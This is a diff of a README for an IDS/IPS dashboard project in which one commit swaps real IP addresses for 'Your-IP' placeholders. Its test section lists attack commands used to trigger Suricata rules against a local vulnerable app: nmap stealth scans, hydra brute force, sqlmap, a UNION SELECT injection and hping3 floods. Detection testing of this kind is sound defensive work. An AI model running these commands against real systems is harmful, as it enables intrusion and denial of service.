

Before and after one commit to Prash1007/IDS-IPS-Dashboard, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 92% size. GitHub-like rendering.

````diff
--- a/README.md
+++ b/README.md
@@ -222,7 +222,7 @@ All configuration is done via the `.env` file. Key settings:
 ```env
 SECRET_KEY=your-secret-key-here
 DEBUG=True
-ALLOWED_HOSTS=127.0.0.1,localhost,10.114.98.28
+ALLOWED_HOSTS=127.0.0.1,localhost,Your-IP
 ```
 
 ### Kafka
@@ -238,7 +238,7 @@ KAFKA_ENABLE_AUTO_COMMIT=True
 ### Suricata SSH Sync
 
 ```env
-SURICATA_SSH_HOST=192.168.1.50
+SURICATA_SSH_HOST=Your-IP
 SURICATA_SSH_PORT=22
 SURICATA_SSH_KEY_PATH=/home/kali/.ssh/suricata_key
 SURICATA_REMOTE_RULES_DIR=/etc/suricata/rules
@@ -352,7 +352,7 @@ This project was tested against a local vulnerable Django web application on the
 
 ```
 Phone (Termux attacker)  ─┐
-                           ├──► 10.114.98.28:4444  (Vulnerable web app)
+                           ├──► Your-IP:4444  (Vulnerable web app)
 Kali Linux (attacker)    ─┘         │
                                     │
                               Suricata (monitoring)
@@ -364,36 +364,36 @@ Kali Linux (attacker)    ─┘         │
 
 **Nmap Scans (SID 1000001–1000006)**
 ```bash
-sudo nmap -sS 10.114.98.28 -p 1-1000          # SYN stealth scan
-sudo nmap -sN 10.114.98.28                    # NULL scan
-sudo nmap -sX 10.114.98.28                    # XMAS scan
-sudo nmap -sF 10.114.98.28                    # FIN scan
-nmap -T5 --open 10.114.98.28 -p-              # Port sweep
+sudo nmap -sS Your-IP -p 1-1000          # SYN stealth scan
+sudo nmap -sN Your-IP                    # NULL scan
+sudo nmap -sX Your-IP                    # XMAS scan
+sudo nmap -sF Your-IP                    # FIN scan
+nmap -T5 --open Your-IP -p-              # Port sweep
 ```
 
 **SSH Brute Force (SID 1000007–1000009)**
 ```bash
-hydra -l root -P /usr/share/wordlists/rockyou.txt 10.114.98.28 ssh -t 4 -V
+hydra -l root -P /usr/share/wordlists/rockyou.txt Your-IP ssh -t 4 -V
 ```
 
 **SQL Injection (SID 1000012–1000014)**
 ```bash
-sqlmap -u "http://10.114.98.28:4444/search/?q=1" --dbs --batch
-curl "http://10.114.98.28:4444/login/?id=1'+UNION+SELECT+1,2,3--"
+sqlmap -u "http://Your-IP:4444/search/?q=1" --dbs --batch
+curl "http://Your-IP:4444/login/?id=1'+UNION+SELECT+1,2,3--"
 ```
 
 **DoS / Flood (SID 1000023–1000026)**
 ```bash
-sudo hping3 -S --flood -p 4444 10.114.98.28   # SYN flood
-sudo hping3 --icmp --flood 10.114.98.28       # ICMP flood
-ab -n 5000 -c 100 http://10.114.98.28:4444/   # HTTP flood
+sudo hping3 -S --flood -p 4444 Your-IP   # SYN flood
+sudo hping3 --icmp --flood Your-IP       # ICMP flood
+ab -n 5000 -c 100 http://Your-IP:4444/   # HTTP flood
 ```
 
 **From Termux (Android):**
 ```bash
 pkg install nmap hydra python apache2-utils
-nmap -sV 10.114.98.28 -p 4444,22,23
-hydra -l admin -P ~/wordlist.txt 10.114.98.28 -s 4444 http-post-form "/login/:username=^USER^&password=^PASS^:F=Invalid"
+nmap -sV Your-IP -p 4444,22,23
+hydra -l admin -P ~/wordlist.txt Your-IP -s 4444 http-post-form "/login/:username=^USER^&password=^PASS^:F=Invalid"
 ```
 
 ---
````
